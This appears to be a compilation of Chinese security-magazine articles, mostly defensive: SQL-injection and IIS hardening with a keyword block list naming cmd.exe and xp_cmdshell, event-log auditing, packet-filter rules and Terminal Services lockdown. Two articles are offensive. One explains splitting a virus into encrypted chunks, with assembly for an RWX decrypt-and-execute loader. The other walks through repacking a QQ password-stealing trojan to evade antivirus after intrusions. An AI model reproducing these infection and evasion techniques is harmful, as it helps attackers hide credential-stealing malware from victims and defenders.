在这里，最好不要用操作员（dbo）或者超级用户（sa）的账户，还有给不同类型的动作或者组建立不同的账户，所有只要与安全有关的配置都可以用最少的权限原则。例如：如果用操作员的身份访问数据库时，利用注入式攻击就有可能删除所有表格、创建新表格；如果用超级用户的账户时，利用注入式攻击就有可能控制整个 SQL 服务器。

#### 3．在存储过程中注意的事项

如果非要用 SQL 语句，那么我们可以用标准的方式来组建 SQL 语句，例如可以用 parameters 对象，避免用字符串直接拼 SQL 命令。当 SQL 运行出错时，不要把数据库返回的错误信息全部显示给用户，错误信息经常会给攻击者提供和透露一些数据库设计的重要细节。这里我们可以禁止由 IIS 发送的详细错误信息，而改用自定义的出错页面。

就目前的注入式攻击，可以简单地总结成上面三大部分，有的应用程序根本没有必要以操作员或者超级用户的身份访问数据库。记住，给的权限越少，网站就越安全！最后希望文章对大家在防范注入式攻击方面有所帮助。

> **TIPS**
>
> 对普通的脚本注入攻击，一般都要给 URL 提交参数然后根据服务器的返回信息判断是不是可以注入，我们只需要简单设置就可以去掉这个麻烦：
>
> 在 IIS 管理器中打开“应用程序调试”标签，将“脚本错误消息”改为“发送文本”，再定义一个错误页面或者是错误信息就可以了。

### EMCO EventLog：让网管更轻松

文／图　安全天使－晓风·残月

蝴蝶：作为一名网管，阅读分析事件日志是每天必不可少的工作，但在一个局域网中，网管大多都是掌管服务器的，并不直接操作客户端机器，如果需要对网内的所有客户端机器的事件日志进行统计分析，审查网络安全隐患，那么一台一台机器地去收集日志，将是一个烦琐的工作，那如何来解决呢？


日志对于系统安全分析具有重要的意义，EMCO EventLog Audit 1.0 是一款在局域网内扫描、保存、处理事件日志数据的日志审计工具，对于维护整体系统安全具有重大意义。它可以在局域网内收集保存所有你能找到的机器的事件日志数据，例如事件 ID、类型、种类、来源、用户 SID 等等；它还可以在预定的时间里对目标电脑里的日志文件进行收集，让我们网管工作变得更轻松。

EMCO EventLog Audit 可以让我们轻松地设置好所要预定收集日志的目标网络。通过扫描域或工作组，我们可以很快地把网内的机器添加到 EMCO EventLog Audit 里，并且还可以手动添加目标机器。同时，我们可以根据网内结构的变换，随时快速地更新。

通过 EMCO EventLog Audit 在 Options 里设置的非常多的参数、选项，为我们下一步的事件收集工作做好充分准备（图 1）。

- **Include Options**：允许你选择需要收集的事件信息。如：应用事件、安全事件、系统事件。
- **Custom Event Log**：允许你扫描一个自定义的事件。如：MS Exchange 或者 MS SQL Server 输出。
- **After Read Event Log**：在扫描完事件日志后，为系统指定一个动作。比如：你可以选择删除对方日志信息或者备份日志信息到一个指定的位置。
- **On Disconnect**：当扫描完毕后，命令 EMCO EventLog Audit 删除用来扫描网络上的机器的 DCOM 服务。EMCO EventLog Audit 总是在扫描开始之前确认 DCOM 服务是否已经安装，如果 DCOM 服务没有安装或不可用，EMCO EventLog Audit 将安装它。
- **Custom Logon**：允许你在所有机子上使用一个账号和密码，用来打开所有网络上的机器的管理员权限。
- **Auto Fetch**：在指定时间激活自动功能。
- **Auto Update**：在指定时间后激活自动更新。
- **Alert Options**：在快速扫描后列出新的警示。
- **Email New Alerts**：在快速扫描后用电子邮件发送新的警示。你可以选择 Email 地址、SMTP Server 和警示的附件类型。


图 1

通过这些设置，我们可以按照我们的需要建立一套扫描机制，让 EMCO EventLog Audit 高效自动地为我们完成工作。

当你外出时，你能够通过 Email 发现那些事件的发生，这样你就不用总呆在电脑面前不停地刷新日志了。只要被你确认为重要警示的事件发生，就会马上通知你。你可以描述很多需要的事件，可以是非常一般的，也可以是非常特殊的事件。

前面，我们只说到 EMCO EventLog Audit 的功能，套用那句话，实践是检验真理的唯一标准。通过收集事件日志，我们就可以非常清楚地体会到 EMCO EventLog Audit 的强大，我们来实际操作一下：


图 3

选择好了目标机器后，我们通过 Advanced Find 找到它。很快，我们就得到了我们指定的时间段、指定的系统事件中 ID 为 1000 的事件数据（图 3）。

EMCO EventLog Audit 还为我们提供了许多方便的工具，例如数据图表显示。它可以让我们把从网内收集来的事件日志，按照我们的分类统计出柱状图表，让我们清楚地知道哪些类型事件经常发生，并做出相应的机器调整。通过 EMCO EventLog Audit 的打印功能，我们可以把我们统计出来的事件日志形成报告，交到主管或 BOSS 那儿，让不一定非常了解网络的老大，也能从中知道些情况，好配合支持我们这些苦命网管的工作，对网内机器进行调整。

一个可以让网管只呆在服务器上，就可以清楚了解各台终端的工作运行情况的工具，简单的鼠标一点，就可以让你把网内计算机的运行情况尽收眼底。对于网管们来说，绝对是个福音！

难度等级：中

适合对象：网管

前置知识：IDS，IIS，常用 IDS 工具


### SecureIIS = IIS + IDS

文／图　64K

SecureIIS 是一个唯一能在专家分析出攻击样本前，便有效保护 IIS 网站服务器的防火墙——因为它不需依赖样本数据库，所以在新型的攻击发起前，便能有效防护 IIS 系统。针对骇客的思维攻击模式，不论实作手法如何变化翻新，均可正确辨识出攻击行为，并分析加以阻拦，也可同时保护以 IIS 作为前端的其他应用程序。

它功能太强大了，包括缓冲区溢出保护、捕捉迂回的攻击行为、防止跨越目录、阻挡常见漏洞、防止加密攻击和预防植入程序等等，都可以经由 SecureIIS 提供！先请大家看下面的界面图（图 1），我们可以看到程序右侧有 9 个栏。挑几个很重要而且很多朋友都没听过的功能。


图 2

### 1. Buffers（数据缓冲）限制

在这个栏中，计算机管理员可以限制被允许连接到服务器的浏览器或其他 HTTP 客户程序的数据缓冲的大小。大部分的 Web 服务器都是易受缓冲区溢出攻击的。攻击是这样实现的：攻击者往往需要向服务器提交一个精心构造的一定长度的代码来实现溢出，在 Win32 环境下的代码至少有 1000 byte，如果我们限制了数据缓冲的大小，那么攻击者将很难成功。所以我们可以通过限制客户端提交的输入数据的长度来防止这种攻击，这不仅可以阻止已存在的缓冲区溢出攻击，也可以防护将来新发现的缓冲区溢出攻击漏洞！

> Maximum URL Length Allowed

推荐值：1024。顾名思义，这一项是用来设置 URL 允许的最大长度的。

> Maximum Query Length Allowed

推荐值：1024。通过它可以调整 SecureIIS 允许传递的 IIS、CGI 脚本和一些查询 Web 程序的请求数。例如：http://localhost/scripts/secureiis?First=john&Last=doe&Job=vd 这个请求的查询部分是：First=john&Last=doe&Job=vd

> Maximum POST Query Length Allowed

推荐值：10000。一些站点程序使用 POST 查询来上传文件，如果你的服务器是这种情况，你需要把这个值设大些。

> Maximum Generic Query Variable Length Allowed

推荐值：128。这个参数用来设置通过查询传递的最大变量名的长度。例如“test”和“test1”就是下面请求的变量名：http://localhost/scripts/example.exe?test=data&test1=data

> Maximum Generic Query Data Length Allowed

推荐值：512。这个参数用来设置通过查询传递的最大变量数据长度，例如“test”和“test1”就是下面请求的变量数据：

```text
http://localhost/scripts/example.exe?
variable1=test&variable2=test1
```

> Maximum Generic Header Length Allowed

推荐值：1024。HTTP 客户端程序需要提交包含信息的报头，而服务器要处理这些头。

> Maximum Authorization Length Allowed

推荐值：256。“Authorization”请求用来获得用 base64 编码、NTLM hash 加密的信任授权书。

### 2. Methods（方法）限制

在这一栏中，我们可以允许或限制各种 HTTP 方法（如：GET、POST）的使用，像 PROPPATCH、LOCK 和 UNLOCK 之类的 HTTP 方法仅被用在开发和 WebDAV 中。通过限制提交的 HTTP 方法，我们可以防止大多数涉及 HTTP 请求方法的潜在安全威胁。

下面栏中列出了很多 HTTP 请求方法，如果你有不明白的可以查看帮助文件。推荐设置：仅激活 GET 和 POST。

### 3. Shellcode 的防范

要实现缓冲区溢出，攻击者就必须向目标主机发送攻击代码，而攻击代码常常是高 bit 流的，对高 bit 流的防护可以有效地防止缓冲区溢出：

> Recommended Settings: Enable all, Disable if Web server is non-English

> 注意：在一些使用多语言的站点上，Shellcode Protection 不一定能够正常工作。如果你的站点上常出现 VerifyHIGHBIT 错误，而你的站点又是多语言的，你可能就要关闭这些选项了。

> High-Bit Shellcode Protection in URL

推荐设置：Enabled。查询 URI 或 URL 中是否存在类似 Shellcode 的高 bit 流。

> High-Bit Shellcode Protection in Query

推荐设置：Enabled。查询 Query 中是否存在类似 Shellcode 的高 bit 流。

> High-Bit Shellcode Protection in Header

推荐设置：Enabled。

> High-Bit Shellcode Protection in POST Data

推荐设置：Enabled。但如果你的客户需要上传二进制文件到服务器，或需要通过 Outlook Web Access 上传电子邮件附件，你就需要关闭这一选项。

### 4. Keywords（关键字）的限制

通过搜寻关键字，SecureIIS 能够识别潜在的攻击请求。如果客户端请求了非法的关键字，这个请求将会被拒绝并记录在日志中。许多攻击程序和攻击者会尝试执行 `cmd.exe`（默认位于 `c:\WINNT\system32\` 下）获得 command shell，通过查询过滤 “system32\cmd.exe”、“cmd.exe” 和 “system32”，就可以极大地减少这种类型的攻击。

推荐设置：SYSTEM32 and cmd.exe。你也可以自己在 Action 菜单下的 Add new item 来添加关键字，同样可以使用 Del 来删除它们。如果你不需 XP_CMDSHELL，建议把它也过滤掉，这可以防止 SQL 攻击。再加上如 exists、select，可防止大部分的 SQL 注入，但还要防止攻击者对这些字的重编码，以绕过检查。注意：留心你过滤的内容。被过滤的关键字越多，SecureIIS 的装载负荷就越大。

更多保护选项大家可以到程序中去具体看一下，它们包括了：Folders（文件夹）保护，推荐设置：仅仅激活 Web 根目录和脚本目录；还有 Web Applications（Web 应用程序）保护。你可以设置是否允许使用 FrontPage Server 扩展和 Outlook Web Access 2000。建议设置：全部关闭。注意：当你更改了设置之后，别忘了应用 Apply button 来保存作出的更改，以激活 SecureIIS 的安全过滤系统。

除了出色的页面防护外，SecureIIS 还有文件保护的功能，时刻监视文件是否被黑客修改。你可以在这里添加你想要监控的文件夹（文件），并设置在发生什么行为时监控。这样我们就可以了解受保护文件夹（文件）的状态，当文件夹发生我们所不期望的行为时，我们就知道受到了入侵，进而尽可能快地采取有效措施应对。

如果你对它的日志描述语言不熟悉，可以查看帮助或访问 eEye 的网站，其实这是很重要的，而很多管理员不把它当回事。记住：不常看日志的管理员不是一个好的管理员！此外标准版中还提供了其它一些强大功能，如 Central Policy Management（用来导入、导出安全策略文件）、Multi-Language Support（对多语言的支持）。

总之，SecureIIS 是一款非常不错的 IIS 保护软件，建议 Web 管理员如果有条件的话可以考虑使用它，它强大的功能是不会让你失望的。


### 战魂

#### PKIpfilter

PktFilter 是一个运行在 Windows 2000/XP/2003 上的包过滤防火墙，它自己并没有实现网络过滤驱动，只是调用系统本身包过滤机制，并提供了一个配置界面。PktFilter 工作得很稳定，占用资源也较少，值得网管们一试。

我们在系统上安装好 PKIpfilter，来仔细地设置它的过滤规则。介绍：在命令行下输入：

```text
C:\> pktctl -i
eth0: (3Com EtherLink PCI): 192.168.0.1
eth1: (3Com EtherLink PCI): 203.123.11.1
```

将列出所有网络接口，假设下面的参数我们都在 eth0 网卡上完成，我们来看一下它的具体用法：

- 1. 通常 IP 过滤的最安全设置是阻止一切通信，然后再给出允许的通信。pktfilter 可以完成这项操作，下面的规则将会给出允许的通信，看看具体的例子：

```text
option small_frags on eth0    // 丢弃所有的碎片包
block in on eth0 all          // 阻止一切通信
block out on eth0 all
pass out on eth0 proto udp from 192.168.1.1 port > 1023 to 192.168.1.254 port = 53   // 允许 DNS 对服务器的解析
pass in on eth0 proto udp from 192.168.1.254 port = 53 to 192.168.1.1 port > 1023
pass in on eth0 proto icmp from any to 192.168.1.1 icmp-type echo    // 允许 ping
pass out on eth0 proto icmp from 192.168.1.1 type echo-rep to any
pass in on eth0 proto tcp from 10.42.42.0/24 port > 1024 to 192.168.1.1 port = 3389 // 允许管理员从所在的子网 10.42.42.0 远程登录
pass out on eth0 proto tcp from 192.168.1.1 port = 3389 to 10.42.42.0/24 port > 1024 established
```

在程序的压缩包中还有 tombkeeper@whitecell.org 写的一个快速生成配置文件的 rulesbuild.cmd，感兴趣的高级用户可以去参考一下。

- 2. pktctl 有两种用法：命令行模式和交互模式，pktctl -i 进入交互模式，在交互模式下使用 help 查看所有命令，我们可以列出规则，添加、删除规则，还可以得到统计信息。具体操作如下：

加载规则文件：

```text
C:\> pktctl -f rules.txt   (命令行模式)
pktctl> source rules.txt   (交互模式)

先清除所有已加载的规则再加载规则文件：
C:\> pktctl -F rules.txt
pktctl> reload rules.txt

手工临时添加一条规则：
C:\> pktctl -a "pass in on eth0 from 10.0.0.42 to any"
pktctl> pass in on eth0 proto udp from 10.0.0.42 to any

列出指定接口上的规则：
C:\> pktctl -l eth0
pktctl> list on eth0

列出指定接口上的规则和规则号：
C:\> pktctl -L eth0
pktctl> list on eth0
（在删除规则的时候需要指定规则号）

删除规则：
C:\> pktctl -d 2 eth0

删除指定接口上的所有规则：
C:\> pktctl -Fa eth0
pktctl> flush on eth0

删除所有接口上的所有规则：
C:\> pktctl -Fa all
C:\> pktctl -Fa
pktctl> flush on all
```

- 3. 日志信息。我们可以在：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\IpFilterDriver` 下的 LogFile 值中修改日志文件的路径，此外日志文件的缓冲大小是有限的，默认是 4096 个 bytes，如果这个值太小，你将会在日志中发现这条记录：`# %u packets logged, %u packets lost, used buffer size was %u, total buffer size`——日志记录满了。为了避免这种情况，我们可以调整 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\IpFilterDriver` 下的 LogBufferSize 值。别忘了上面介绍的两个更改，重启才能生效。

通过上面的功能，PKIpfilter 已经能比较好地实现包过滤的功能了，相信它强大的功能、灵巧的体积将是你的首选！

**难度等级：** 中

前置知识：Win32 汇编相关知识、病毒基本技术

socket：病毒在对文件的感染中，如果可以不增加宿主文件的大小，那当然是最好不过，CIH 在这方面就为我们做出了榜样。但在通常情况下，尽管采用汇编编程已经让病毒自身非常精简，但功能复杂的病毒代码块头也不小，并非每个宿主程序都有足够的空隙来让其见缝插针，本文介绍了病毒在这方面技术上的一种解决方法，欢迎大家共同探讨。

### 分块插入感染理论与动态解密执行

本文主要根据“分块插入感染”与“动态解密执行”两者展开讨论，有不足的地方欢迎大家讨论指出：

> **tips: 1. 何谓分块插入感染？**
>
> 所谓分块插入感染就是把病毒体本身分解成多个小块插入到宿主程序的空隙缝里，从而达到感染宿主程序的目的。这样做有两点好处：
>
> （1）不会增加宿主程序的文件大小及不用增加新节。前提是宿主程序有足够大的空隙。
>
> （2）增强病毒的隐蔽性。
>
> **2. 何谓动态解密执行？**
>
> 病毒为了增强其隐蔽性以躲过杀毒软件查杀，一般会对自身的代码进行加密或变形，那么病毒执行时就必须先对自身进行解密，而这一过程是动态的，所以称之为动态解密执行（个人观点）。

#### 感染

一般分块插入感染是把整个病毒体分块后插入宿主程序中，当病毒体较大时，很多宿主程序没有相应大的空隙来容纳病毒代码，这时分块插入会感染失败，只能采用增加新节的方法。而本文要讲的分块插入感染只是把小部分代码插入宿主程序中，其他大部分代码以加密的形式存在于数据文件，这个数据文件是唯一的，一台主机只生成一个。因为插入的那部分代码较小，因而大部分的宿主程序都有足够大的空间来容纳。

#### 执行

宿主程序内的代码首先检测当前主机有没有被感染，如果没有则按一定的数据结构生成加密数据文件，否则根据一定的数据结构读出数据文件中的加密代码分段解密执行。分段解密执行即在一段时间内，内存中只有当前正在执行的代码是明文，执行完毕后马上撤销，继续解密下一段执行。

上面就是我们需要解决的两个问题，要完成上述功能就需要如下的解决办法：

- 1. **怎样分块？**  
  病毒体被分成两部分，一部分插入宿主程序，一部分存在于数据文件内。那么怎样分配才合适呢？考虑到宿主程序的空隙可能比较小，因此插入到宿主程序中的代码必须少，最好配合其他的病毒技术如 EPO 以进一步增强病毒的隐蔽性，而这段代码的主要功能就是测试当前主机有没有被感染及读取数据解密执行。其他传播、破坏等功能都放入数据文件，为了方便处理，数据文件中的分块一般以一个功能较完整的代码段作为一个分块。

- 2. **如何组织数据文件中的数据？**  
  整个数据文件可以分成文件头与数据两部分，其结构大致如下：

```text
1) 文件头结构
FileHead Struct
Num            Byte   ?      ; 分块数
MaxData        DWord  ?      ; 最大分块的大小
FileHeadSize   DWord  ?      ; 文件头大小
DataDir        DataStru Num dup( < > ) ; 分块目录表
FileHead Ends

2) 分块目录项结构
DataStru Struct
Id             Byte   ?      ; 序号即第几个分块
StartAddr      DWord  ?      ; 分块在数据文件中的起始地址
Len            DWord  ?      ; 分块长度
Password       DWord  ?      ; 当前分块的密码
DataStru Ends
```

数据读到已经分配好的内存中：

```text
Call Decrypt, pMem, [esi].Len, [esi].Password
```

- 3. **如何动态解密执行？**

下面是根据上文的数据组织形式而写的演示代码，首先是插入在宿主程序中代码的一部分变量说明：

```text
szFileName    ; 数据文件的文件名
mFileHead     ; 文件头结构变量
mData         ; 分块结构变量
pMem          ; 指向一块虚拟内存空间
pFile         ; 数据文件的文件指针
```

调用解密子程序解密，其中 `[esi].Len` 为当前分块长度，`[esi].Password` 为当前分块的密码：

```text
Pusha
; 保存所有寄存器
Call pMem
; 执行已经解密的代码
Popa
; 恢复所有寄存器
Add ebx, sizeof DataStru
; 使 ebx 指向下一个数据目录项
Loop Repeat
; 循环
...
```

主题代码如下：

```text
Main:
Call CreateFileA, szFileName    ; 打开数据文件
cmp eax, INVALID_HANDLE_VALUE   ; 判断数据文件是否存在
Jz Err                          ; 不存在，则转向出错处理
Mov pFile, eax                  ; 保存文件指针

; 把文件头数据读入 mFileHead
lea edi, mFileHead
Assume edi : ptr FileHead
Mov ebx, [edi].MaxData
Call VirtualAlloc, NULL, ebx, MEM_COMMIT, PAGE_EXECUTE_READWRITE
; 在内存中分配一块空间，大小为分块数据中最大的
or eax, eax
Jz Err
Mov pMem, eax
Mov ebx, [edi].FileHeadSize     ; 让 ebx 指向第一个数据目录项
Mov ecx, [edi].Num              ; Ecx 为分块数
Repeat:
Call SetFilePointer, pFile, ebx, NULL, FILE_BEGIN

Call ReadFile, pFile, addr mData, sizeof DataStru
; 读取分块数据目录结构
Lea esi, mData
Assume esi : ptr DataStru
Mov edx, [esi].StartAddr        ; Edx 为当前分块在数据文件中的起始地址
Call SetFilePointer, pFile, edx, NULL, FILE_BEGIN
Call ReadFile, pFile, addr pMem, [esi].Len    ; 把分块
```

由于我对病毒的理解还有很多不足，这种思路还存在着一定的缺陷（如单个染毒文件被带到另一台主机上时，因没有相应数据文件而不能正常运行），希望朋友们多提意见，并非常欢迎各位朋友来 Email（haiwei_1111@163.com）与我探讨。

### 恢复 EXE 文件关联

如果木马、病毒或误操作破坏了 EXE 文件的正常关联，则会导致本机中所有 EXE 文件无法运行。用金山毒霸 6 能很快恢复 EXE 文件关联。

进入金山毒霸 6 的安装目录，找到金山毒霸 6 的主程序 kav32.EXE 文件，把它改名为 kav32.com，然后运行 kav32.com，这样金山毒霸 6 的主程序就被启动了。关闭该文件，再把 kav32.com 改名为 kav32.EXE，再运行任何 EXE 文件试试，结果都可以运行了。因为金山毒霸 6 每次启动时都会自动检查注册表中的 EXE 关联是否正确，如果不是系统的默认值就会自动恢复。因此只要将 kav32.EXE 改名为 kav32.com 文件运行一次，金山毒霸就会帮我们自动恢复 EXE 文件关联，而我们正是巧妙地利用了这一点。

难度等级：中

前置知识：查壳，脱壳，加壳

### 病毒中的另类——浅析木马服务端的侦壳、脱壳与加壳

文／图 HXE


socket，其实，病毒和木马在某种意义上讲是有相同功效的，所以我们尝试着从木马和病毒共通的地方去了解这个神秘的领域，希望有所发现，还好，有点收获，目的就在创造出一种可以走在杀毒软件前面的病毒或者木马！

常玩木马的朋友一定都遇到这样的经历：好不容易运行成功的木马服务端，隔不多久便销声匿迹了，再也找不到一丝讯息，而病毒的传播更是有被查杀的问题……面对这种情况我们难道就没有办法了吗？你一定也是同我一样很不甘心——如果你不希望我们辛苦的入侵一无所得的话，或者不希望自己编写的病毒被很快杀掉的话，那么就跟我来吧！也许你的命运从这里开始会有一些转变……（基础教程，以木马为例，见笑见笑。）

#### 主体思路

我们所要做的工作其实很简单，只要在检测出木马／病毒的加壳方式后，设法使其脱壳，然后使用另一种不是很常用的加壳方式重新加壳，最终达到使杀毒软件无法准确识别其真实身份的目的。

> 小编注：这项工作可能会很繁琐，但是为了以后能够有所收获，现在辛苦些也是值得的。天上不会掉下馅饼，你可一定要沉得住气呀！^_^

#### 实战演习

在这里，我们用“QQ 密码使者 4.0”这款 QQ 盗密软件为例来做一下简单的说明：它是一款完全傻瓜且免费的 QQ 安全工具，“密使”以前的版本在我印象中是“全裸”的，根本无需脱壳的操作，就可以重新进行加壳的操作，很方便，但是不知从什么时候开始它也加上了壳了，这可能是软件开发的大势所趋吧，也可能是因为它是最终版而为以后留个纪念吧！^_^

侦壳的工作有时候很令人烦恼，为了方便，我们请出“pe-scan”这款经典的侦壳工具，检测结果如下（图 1）。


图 1

在“打开”中选择正确的文件（QQmmsz.exe），就可以看到“密使”的加壳方式了（ASPack 2.12），为了验证是否准确，我又用“language2000”这个专业级的侦壳工具再次侦壳，结果与第一次相同。再点击右边的“脱壳”，脱壳的速度很快，脱壳完成后弹出一个对话框，自定义一个文件名，“保存”即可（这里我把脱壳后的文件重命名为“tkh.exe”）。

脱壳后便是重新加壳了，我们可以上网搜索一种不是很常见的加壳软件（建议最好是日文的，使用量越少越好，这里我使用的便是一款洋兵器——“Petite 2.2”），所示便是 Petite 2.2 的主界面（图 2），虽然我的英文很一般，但是还是可以很方便地操作。从“browse”中选择正确的路径，轻轻点击“start”它就开始自动为程序加壳，只是可惜的是，用“kv2003”仍然可以查出发现有病毒，郁闷 ing……


图 2

一个人闲着无聊在网上瞎逛，无意中发现“幻影 2.20”这款国人自己编写的加壳程序，马上 down 了下来。美中不足的是它是一款共享软件，不过不去注册也不会影响使用，大家就支持一下国产嘛！图 3 则是它的主操作界面，使用起来超级傻瓜，不需要我来多说了吧？


图 3

为了方便区别，我把加密后的“密使”改名为“ikh.exe”，一切完工，这时候再使用“kv2003”扫描一下它。哈，成功了！杀毒软件不认识了！（图 3）

现在你就可以大大方方地放手去干，再也不必担心杀毒软件的屠刀“杀戮”了！

#### 后记

前面所述便是你所需工作的全部过程，“密使”如此，其他木马修改也是大同小异。“兄弟齐心，其力断金”。只要我们团结起来，再厉害的杀毒软件又有何惧！嘻嘻……

其实我也很菜的，在 HXE 混了这么久也没有学到些什么，真是惭愧啊！但是我相信，这一次我能行，你也一样可以，只要你足够细心而且有耐心，相信过不多久，你也会拥有一款杀毒软件都查不出、找不到的“隐身”木马……在这里我首先祝你好运！^_^

#### 编后语

用病毒技术做木马是曾经非常火热的一种现象，但由于病毒编写严谨、复杂等问题，用在木马身上有点小题大做的味道，但是，不得不说是个非常好的思路，所以我们想从这个方面去了解更多的东西，创造出更好的安全工具，你有什么想法？欢迎和我们讨论！

### TIPS 病毒分类

- 1. 按传染方式分为：引导型病毒、文件型病毒和混合型病毒。
- 2. 按连接方式分为：源码型病毒、入侵型病毒、操作系统型病毒、外壳型病毒。
- 3. 按破坏性可分为：良性病毒、恶性病毒。

源码病毒较为少见，亦难以编写。因为它要攻击高级语言编写的源程序，在源程序编译之前插入其中，并随源程序一起编译、连接成可执行文件。此时刚刚生成的可执行文件便已经带毒了。

入侵型病毒可用自身代替正常程序中的部分模块或堆栈区。因此这类病毒只攻击某些特定程序，针对性强。一般情况下也难以被发现，清除起来也较困难。操作系统病毒可用其自身部分加入或替代操作系统的部分功能。因其直接感染操作系统，这类病毒的危害性也较大。

### 打造超级安全个性的 Windows 2003 终端服务

文／图 山东 王新

**难度等级：** 低

**适合对象：** 网络管理员，入侵爱好者

**前置知识：** Windows 2003 网络使用／管理基本技能。

刘流：终端服务的强大功能是广大网管人员的福音，给大家带来不少的便利，尤其对学校的微机室管理员，不啻于“救世主”，汗！有点夸过火了，呵呵——但另一方面，正因为 2003 终端的强大功能，使服务器屡屡在“不法分子”和“调皮学生”面前一次次地倒下，丢尽了管理员的脸面，痛定思痛之下，许多管理员决定打造一个超级安全的终端服务！


终端服务是为了给管理员方便管理而开放的一个特色服务，虽然我们利用它能实现远程的管理操作，但非法的入侵者同样可以非常方便地利用它来进入我们的系统，取代我们的管理员地位。所以，在经历过很多次马虎设置终端而服务器被很容易地入侵后，我摸索出了一套比较可行的安全终端服务设置方法，在这里和大家共同讨论，有不足的地方欢迎大家指出，有自己独特看法的朋友也可以借黑防这个舞台表演一下，大家共同进步！下面开始：

#### 打造安全的数据传输通道

数据的加密传输是最安全的方式，下面我们用两个方法来实现（需要注意的是这两种方法的效果是一样的，但是使用组策略要优先于终端服务器自身的设置）。

##### 1．使用组策略

- 1. 打开“开始菜单”选择“运行”，然后输入 `gpedit.msc`，打开“组策略”。
- 2. 在“计算机配置”→“管理模板”→“Windows 组件”→“终端服务”→“加密与安全性”上，双击“设置客户端连接加密级别”设置，然后单击“已启用”。
- 3. 在“加密级别”列表中，选择“高级别”，然后“确定”。如图 1 所示。


> （刘流：如果通过系统加密，使用 FIPS 兼容的算法来加密、哈希和签名组策略，已经启用了 FIPS（联邦信息处理标准）兼容算法，就不能通过使用该组策略或使用终端服务配置更改加密级别。）

## 2. 使用终端服务自身配置

要打开“终端服务配置”，请依次单击“开始”和“控制面板”，双击“管理工具”，再双击“终端服务配置”。

- 1. 打开“终端服务配置”。
- 2. 在控制台树中，单击“连接”。
- 3. 在详细信息窗格中，右键单击要修改的连接，然后单击“属性”。
- 4. 在“常规”选项卡的“加密级别”中，选择“高”。

- 5. 可以从以下加密级别中选择：

“符合 FIPS 标准”级别通过使用 Microsoft 加密模块的联邦信息处理标准（FIPS）加密算法，对客户端和服务器之间相互发送的数据进行加密和解密。

“高”级别使用 128 位的强加密算法，对客户端和服务器之间发送的数据进行加密。当终端服务器运行在仅包含 128 位客户端的环境中时，才使用该级别。不支持该加密级别的客户端将无法进行连接。

“客户端兼容”级别以客户端所支持的最大密钥强度来加密客户端和服务器之间发送的数据。如果终端服务器的运行环境包含混合或旧的客户端，请使用此级别。

“低”级别将使用 56 位加密对从客户端传输到服务器的数据进行加密。

> （刘流：从服务器发向客户端的数据不会被加密；当在服务器上安装了另一验证软件包时，如果你希望此连接默认进行标准的 Windows 验证，请选中“使用标准 Windows 验证”复选框。）

#### 设置安全的远程控制

下面我们使用两个方法来实现安全控制，使用这两种方法的效果也是一样的，但使用组策略还是优先于终端服务器的设置。

### 1. 使用组策略

- 1. 打开“组策略”。
- 2. 在“计算机配置”、“管理模板”、“Windows 组件”、“终端服务”中，双击“为终端服务用户会话的远程控制设置规则”设置，然后单击“已启用”。
- 3. 在“选项”框中，单击所需的远程控制权限，然后单击“确定”。选择“经用户授权查看会话”。

### 2. 使用终端服务配置进行修改

- 1. 打开“终端服务配置”。
- 2. 在控制台树中，单击“连接”。
- 3. 在详细信息窗格中，右键单击要配置远程控制的连接，然后单击“属性”。
- 4. 在“远程控制”选项卡上，单击“使用具有下列设置的远程控制”以配置该连接的远程控制。
- 5. 要在客户端上显示询问是否有查看或加入该会话权限的消息，请选中“需要用户权限”复选框。
- 6. 在“控制级别”下，单击“查看会话”以指定用户的会话只能查看，或单击“与会话交互”以指定用户的会话可以随时使用键盘和鼠标进行控制。如图 2 所示。


> 注意：在每连接的基础上配置的远程控制会影响使用该连接的所有会话。可以使用终端服务用户配置组策略，或使用本地用户和组以及 Active Directory 用户和计算机的终端服务扩展程序在每用户的基础上配置远程控制，而且远程控制权限的更改不会应用到在更改时已连接的会话上。

#### 设置安全的用户登录设置值

更改用户或组的连接权限：

- 1. 打开“终端服务配置”。
- 2. 在控制台树中，单击“连接”。
- 3. 在详细信息窗格中，右键单击需要更改权限的连接，然后单击“属性”。
- 4. 在“权限”选项卡上，单击“高级”以打开“高级安全设置”对话框。
- 5. 在“权限项目”中，选择需要更改权限的用户或组，然后单击“编辑...”打开“权限项目”对话框。如图 3 所示。


- 6. 在“权限”中，根据需要在要为该组设置的权限旁选中或清除“允许”或“拒绝”复选框。

这里需要注意要根据需要对用户授权合适的权限，不要给他们完全控制的权力，权力越大造成的风险也就越大。

#### 设置安全的工作环境

### 1. 连接时总是提示客户端提供密码

- 1. 打开“组策略”。
- 2. 在“计算机配置”、“管理模板”、“Windows 组件”、“终端服务”、“加密与安全性”中，双击“连接时总是提示客户端提供密码”设置。如图 4 所示。


- 3. 单击“已启用”，然后单击“确定”。

### 2. 确保终端服务器 RPC 通信的安全

- 1. 打开“组策略”。
- 2. 在“计算机配置”、“管理模板”、“Windows 组件”、“终端服务”、“加密与安全性”、“RPC 安全性策略”中，双击“安全服务（要求安全性）”设置。
- 3. 单击“已启用”，然后单击“确定”。
- 4. 远程过程调用（RPC）接口用于管理和配置终端服务。
- 5. 如果该设置的状态是“已启用”，则终端服务器接受来自支持安全请求的 RPC 客户端的请求，并且不允许与不受信任的客户端进行非安全通信。
- 6. 如果该设置的状态是“已禁用”，则终端服务器总是要求所有 RPC 通信要具有安全性。
- 7. 如果该设置的状态是“未配置”，则允许非安全通信。这是默认设置。


（2）在控制台树中，单击“服务器设置”。如图 6 所示。


使用以上步骤配置本地组策略对象，要更改用于域或组织单位的策略，你必须以管理员身份登录到主域控制器，然后，你必须通过“Active Directory 用户和计算机”管理单元调用组策略。

#### 限制到远程会话的用户

### 1. 使用组策略

- 1. 打开“组策略”。
- 2. 在“计算机配置”、“管理模板”、“Windows 组件”、“终端服务”中，双击“限制终端服务用户到一个远程会话”设置。
- 3. 单击“已启用”，然后单击“确定”。

使用以上步骤配置本地组策略对象，要更改用于域或组织单位的策略，你必须以管理员身份登录到主域控制器，然后必须通过“Active Directory 用户和计算机”管理单元调用组策略。

### 2. 使用终端服务配置

- 1. 打开“终端服务配置”。
- 2. 在详细信息窗格中，右键单击“限制每个用户使用一个会话”，然后单击“确定”。如图 7 所示。


- 3. 选中“限制每个用户使用一个会话”复选框，然后单击“确定”。

好了，终于讲完了，通过上面的设置，你的终端服务应该是比较强健了，现在别人就不容易利用你的终端服务入侵了。这次写东西有点紧张，格式太死板了点，大家见谅，以后改进，呵呵。等着你的讨论哦！

> 编后：

